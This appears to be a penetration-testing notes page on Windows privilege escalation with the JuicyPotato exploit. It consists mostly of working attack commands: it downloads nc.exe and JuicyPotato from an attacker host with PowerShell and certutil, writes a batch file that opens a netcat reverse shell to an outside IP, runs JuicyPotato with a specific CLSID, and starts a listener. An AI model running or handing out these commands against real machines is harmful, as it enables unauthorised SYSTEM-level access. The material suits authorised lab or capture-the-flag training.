 ```
C:\Windows\system32>whoami /priv
```

<figure><img src="../../.gitbook/assets/image (1).png" alt=""><figcaption></figcaption></figure>

Download nc.exe and juicypotato.exe to the victim host , then simply upload both to a writable directoy. I normall just write to a temp folder under \appdata\local\temp\\.

```
powershell.exe invoke-webrequest -uri http://$attackerip/nc.exe -outfile C:\users\user\appdata\local\temp\nc.exe
```

```
powershell.exe invoke-webrequest -uri http://$attackerip/JuicyPotato.exe -outfile C:\users\user\appdata\local\temp\jp.exe
```

If powershell isn't working, try with _certutil_ command.

```
certutil -urlcache -split -f http://$attackerip/JuicyPotato.exe jp.exe
```

Then create a rev.bat ( reverse shell bash ) file to get a reverseshell&#x20;

```
echo C:\users\user\appdata\local\temp\nc.exe -e cmd.exe 10.10.14.39 1340 > rev.bat
powershell.exe invoke-webrequest -uri http://$attackerip/rev.bat -outfile C:\users\user\appdata\local\temp\rev.bat
```

Then run Juicy with the correct  `clsid.`

```
jp.exe -t * -p C:\users\user\appdata\local\temp\rev.bat -l 1340 -c '{8F5DF053-3013-4dd8-B5F4-88214E81C0CF}'
```

On the attacker host, start the listener with some uncommon port

```
nc -lnvp 1340 
```

### Abusing Permission Issue
